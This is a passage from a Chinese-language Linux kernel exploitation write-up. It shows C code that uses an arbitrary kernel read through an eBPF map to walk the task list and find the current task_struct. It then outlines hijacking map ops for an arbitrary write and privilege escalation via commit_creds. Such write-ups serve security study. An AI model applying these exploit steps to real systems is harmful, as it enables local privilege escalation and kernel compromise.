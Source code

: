 不过由于我们目前暂时不知道 page_offset_base ，因此暂时无法完成对所有物理内存搜索的工作，而只能读取内核镜像范围的内存  
  
但是 init 进程的 PCB init_task 位于内核数据段上，  
init_task 的地址对我们来说是可知的，而  
所有进程在内核中的 PCB 构成一个双向链表，因此我们可以直接沿着这个双向链表搜索我们的进程控制块，判断是否搜索到的方法有很多，比如说对比 pid 一类的，这里笔者选择用 prctl(PR_SET_NAME, "arttnba3") 来设置 task_struct->comm：  
```
size_t current_task;

size_t search_for_current_task(int map_fd)
{
    size_t next_task = INIT_TASK + kernel_offset + 0x818;
    size_t data;

    prctl(PR_SET_NAME, "arttnba3");

    do {
        next_task = read_arbitrary_addr(map_fd, next_task);
        data = read_arbitrary_addr(map_fd, next_task + 0x2d0);
    } while (data != *(size_t*) "arttnba3");

    current_task = next_task - 0x818;

    printf("\033[32m\033[1m[+] Get current task_struct's addr: \033[0m%lx\n",
           current_task);
}
```  
  
成功获得当前进程的 task_struct 地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZIrEVjscIm5ibhmddP7fS42bKImcOMrmKEiaeCjh9ic4SqvJ3tibJaiaadVl0vCfqX2rz2ThKPkLfPjMUQ/640?wx_fmt=png "")  
## 五、任意地址写  
  
我们同时有 map 的地址和内核基址，同时还能直接改写 map 内部的内容，不难想到的是我们可以直接在 map 上构造 fake map ops 后劫持 map 函数表从而劫持内核控制流  
  
比较传统的方式就是直接栈迁移然后 ROP 执行 commit_cred(&init_cred)，但笔者看到一个非常有意思的构造任意写的思路，所以这里也用这种解法（笑）  
  
注意到 array map 的 map_get_next_key() 定义如下，当 key 小于 map.max_entries 时 key 会被写入到 next_key 当中：  
```
/* Called from syscall */
static int array_map_get_next_key(struct bpf_map *map, void *key, void *next_key)
{
        struct bpf_array *array = container_of(map, struct bpf_array, map);
        u32 index = key ? *(u32 *)key : U32_MAX;
        u32 *next = (u32 *)next_key;

        if (index >= array->map.max_entries) {
                *next = 0;
                return 0;
        }

        if (index == array->map.max_entries - 1)
                return -ENOENT;

        *next = index + 1;
        return 0;
}
```  
  